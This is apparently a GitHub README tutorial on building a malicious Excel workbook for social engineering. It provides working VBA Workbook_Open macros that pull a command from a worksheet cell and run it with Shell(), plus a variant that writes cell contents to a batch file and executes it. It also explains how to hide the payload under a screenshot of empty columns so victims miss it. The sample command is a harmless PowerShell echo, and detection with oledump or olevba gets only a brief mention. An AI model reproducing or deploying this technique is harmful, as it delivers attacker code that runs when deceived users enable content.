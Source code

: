 # Social Engineering Using "Hidden" Macros In Excel

NOTE: Simply running a tool such as oledump or olevba against the document will return the macros.

All that will be shown is that the macro is extracting code from a specific column & executing it using Shell(), which is admittedly still suspicious:

![](/imgs/img1.png)

And if we navigate to BG1 which is where the code appears to be, we don't immediately see anything suspicious:

![](/imgs/img2.png)

But if you hover your mouse over BG1 (or simply look a little more closely & notice the misaligned columns) then you'll see that there's an image overlaying the code:

![](/imgs/img3.png)

![](/imgs/img4.png)

Obviously someone with a bit more patience could perfect the screenshot of the empty columns & overlay it on top of the code to make it less noticable.

Another way to reveal the code being extracted from the worksheet is by using `MsgBox`:

![](/imgs/img5.png)

# Crafting the Document

## What's Needed:

1. Screenshot of a set of empty columns to overlay on top of the code, example:

![](/imgs/img6.png)

2. Macros that extract the code from the workbook & run the data:

```
Private Sub Workbook_Open()
Data = Sheet1.Range("BG1")
Shell(Data)
End Sub
```

* Data = Sheet1.Range("BG1") Simply looks at the row located at BG1 & extracts whatever is in that row & places it inside the variable *Data*

3. Code that will be extracted & executed upon the document opening & the user clicking "Enable Content"

```
powershell.exe -exec bypass -C echo "Hello world" > C:\Users\Desktop\Conduct\Desktop\test.txt
```

After you've inserted the code into whatever column you'd like, simply insert the image of the empty columns over the code (Insert > Illustrations > Pictures)

Then insert the macros in ThisWorkbook & change the **Range()** part to match up with your column. So if you inserted the data in column A and it's on the 1st row, it'd be **Range("A1")**


## Writing Multiple Lines To a File

Writing multiple lines to a file is a piece of cake and only requires the addition of a few lines of code.

The macro code used is here:

```
Private Sub Workbook_Open()
1. Dim Path As String
2. Dim FileNumber As Integer
3. FileNumber = FreeFile
4. Data = Sheet1.Range("BG1")
5. Data2 = Sheet1.Range("BG2")
6. Path = "test.bat"
7. Open Path For Output As FileNumber
8.    Print #FileNumber, Data
9.    Print #FileNumber, Data2
10.    Close FileNumber
11. Shell(Path)
End Sub
```

* Lines 1-3 are static, keep those as is. They simply define the variables used
* Lines 4-6 are dynamic. You will want to change the strings in 4 & 5 to be where your code is located in terms of the excel worksheet. Change line 6 to the file path you desire.
* Lines 7-9 are also dynamic, they simply open the file & write to the file the data that has been extracted. Lines 8 & 9 in particular are the lines responsible for writing the data to the file.


Simply insert the code you want to write to a file into the workbook & take note of the column & row it's located in & change the Data & Data1 variable to match up with your column & row (and add more variables if needed). Then overlay the code in the workbook with the screenshot of the empty rows, and boom!

A sample document is available, I hope this all made sense.
